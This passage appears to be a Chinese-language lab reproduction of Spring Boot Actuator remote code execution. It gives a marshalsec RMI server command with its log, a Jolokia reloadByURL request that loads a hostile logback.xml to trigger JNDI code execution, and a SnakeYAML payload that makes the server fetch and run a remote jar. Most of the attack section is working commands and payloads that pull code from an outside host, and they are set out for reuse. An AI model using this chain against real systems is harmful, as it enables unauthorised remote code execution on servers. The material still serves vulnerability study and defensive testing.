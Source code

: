 
监听 rmi 端口

```
root@kali:~/ldap_rmi# cat rmi.sh
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://10.20.24.191:8000/#ExportObject


root@kali:~/ldap_rmi# ./rmi.sh
* Opening JRMP listener on 1099
Have connection from /10.20.24.191:43878
Reading message...
Is RMI.lookup call for ExportObject 2
Sending remote classloading stub targeting http://10.20.24.191:8000/ExportObject.class
Closing connection



```

浏览器访问加载远程logback.xml文件进行解析,

服务器访问恶意jndi 地址,导致恶意字节码代码执行

`http://10.20.24.191:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/10.20.24.191:8000!/logback.xml`

![](./RCE_GET.png)

## 0x05 命令执行成功

![](./a_success.png)

```
root@kali:/var/www/html# ls /tmp/j*
/tmp/jas502n
root@kali:/var/www/html#
```
# YML RCE 漏洞复现 (三)

通过Spring环境`spring.cloud.bootstrap.location` 属性修改来实现RCE的方法更可靠

该属性用于加载外部配置并以YAML格式解析它。
为了实现这一点，任需要POST `/refresh` 任意内容触发漏洞。

## yaml_payload.yml 文件内容

![](./yml_http.png)

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.20.24.191:8000/yaml_payload.jar"]
  ]]
]
```
